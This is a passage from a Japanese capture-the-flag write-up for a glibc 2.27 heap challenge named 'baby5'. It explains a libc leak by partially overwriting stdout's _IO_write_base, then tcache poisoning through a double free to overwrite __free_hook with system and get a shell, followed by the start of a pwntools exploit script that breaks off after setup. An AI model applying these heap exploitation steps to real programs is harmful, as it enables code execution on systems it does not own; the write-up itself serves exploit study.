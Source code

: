 上から`_flags`, `_IO_read`系のポインタ(実質`_IO_write_base`までのパディング) × 3, `_IO_write_base`の下位バイト書き換えとなっている

これを書き込むと次の`puts`や`printf`で`0x7f69e77ec708`から`0x7f69e77ec7e4`までのメモリの中身が出力されるので最初の8バイトを受け取ってアンパックして先程のオフセットを引けばlibc leakが出来る

### いつもの

(これいる?)

Double Free経由のtcache poisoningで`__free_hook`をnextに配置し、確保時にsystemのアドレスを入れて`"/bin/sh"`が入っているチャンクをfreeしてシェルゲット

## Code

```python
from pwn import process, p64, u64, ELF


def _select(s, sel, c=b"> "):
    s.recvuntil(c)
    s.sendline(sel)


def add(s, size, data=b"junk"):
    _select(s, b"1")
    s.recvuntil("size: ")
    s.sendline(str(size).encode())
    s.recvuntil("data: ")
    s.send(data)


def edit(s, idx, size, data):
    _select(s, b"2")
    s.recvuntil("item: ")
    s.sendline(str(idx).encode())
    s.recvuntil("size: ")
    s.sendline(str(size).encode())
    s.recvuntil("data: ")
    s.send(data)


def delete(s, idx):
    _select(s, b"3")
    s.recvuntil("item: ")
    s.sendline(str(idx).encode())


def show(s, idx):
    _select(s, b"4")
    s.recvuntil("item: ")
    s.sendline(str(idx).encode())
    s.recvuntil("data: ")
    return s.recvline().rstrip()


if __name__ == '__main__':
    elf = ELF("./baby5")
    stdout_elf = elf.symbols["stdout"]
    libc = ELF("./libc.so.6")  # 2.27
    system_libc = libc.symbols["system"]
    free_hook_libc = libc.symbols["__free_hook"]
    stdout_libc = libc.symbols["_IO_2_1_stdout_"]
    offset = 0x7fd8e6ded8b0 - 0x7fd8e6a00000

    s = process("./baby5")
```